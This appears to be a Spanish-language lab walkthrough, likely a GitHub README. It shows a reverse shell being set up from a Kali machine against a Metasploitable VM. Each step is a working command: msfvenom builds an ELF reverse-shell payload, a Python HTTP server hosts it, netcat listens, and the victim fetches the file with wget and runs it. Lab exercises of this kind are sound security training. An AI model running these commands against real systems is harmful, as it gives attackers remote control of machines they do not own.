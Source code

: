 ## 1. CREAR EL PAYLOAD

Usamos msfvenom para generar un payload tipo ELF (Linux) que abre una shell inversa hacia Kali en el puerto 4444.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.171.132 LPORT=4444 -f elf -o shell.elf
```
![image](https://github.com/user-attachments/assets/9832a339-55b6-4310-a799-575a489c714f)

## 2. Servir el archivo en Kali

Se usa un servidor HTTP simple en Python para que Metasploitable pueda descargar el binario.

```bash
python3 -m http.server 8000
```

Esto hace levantar un servidor HTTP local en el puerto 8000 para servir archivos desde el directorio actual (donde está shell.elf).

![image](https://github.com/user-attachments/assets/d3a87a2d-e7e3-46dc-8f60-e940c0e36e04)

## 3. Escuchar con Netcat en Kali

Antes de ejecutar el binario en la víctima, nos preparamos para recibir la conexión con netcat:

```bash
nc -nlvp 4444
```

![image](https://github.com/user-attachments/assets/d231de41-07df-437a-b4c8-4a1f7919d6c5)

## 4. Descargar shell.elf en Metasploitable (vía Telnet)
# 4.1. Entra a Metasploitable por Telnet

```bash
telnet 192.168.171.133
```
Nos conectamos a Metasploitable, luego usamos wget para descargar el archivo desde el servidor de Kali.

![image](https://github.com/user-attachments/assets/4a34a147-b844-428b-bfac-64a488fd6e9e)

# 4.2. Descargamos shell.elf desde el servidor web de Kali

```bash
cd /tmp
wget http://192.168.171.132:8000/shell.elf

```
![Captura de pantalla 2025-05-28 115712](https://github.com/user-attachments/assets/00f004b2-19bb-4dd7-91fa-e724f75e79a9)


## 5. Dar permisos y ejecutar

Concedemos permisos de ejecución al binario y lo ejecutamos:

```bash
chmod +x shell.elf
./shell.elf
```
![image](https://github.com/user-attachments/assets/7a6e6478-d61d-4094-9816-d0c1aae34d57)


## 6. Shell obtenida

En la terminal donde estaba el  nc -nlvp 4444, se vera:

```bash
connect to [192.168.171.132] from (192.168.171.133) 12345
```

![image](https://github.com/user-attachments/assets/2f80a495-b6de-4ca9-885c-26346b23253f)

Y en la terminal de Kali (como se ve en la imagen), se registró la solicitud:

![image](https://github.com/user-attachments/assets/1cd50a84-0176-4700-b3fc-c9dbc7494f42)


por lo tanto ya se puede ejecutar comandos como si estuvieras dentro de la máquina Metasploitable:

![image](https://github.com/user-attachments/assets/711374e0-97ac-4824-be44-297071d7ce8d)
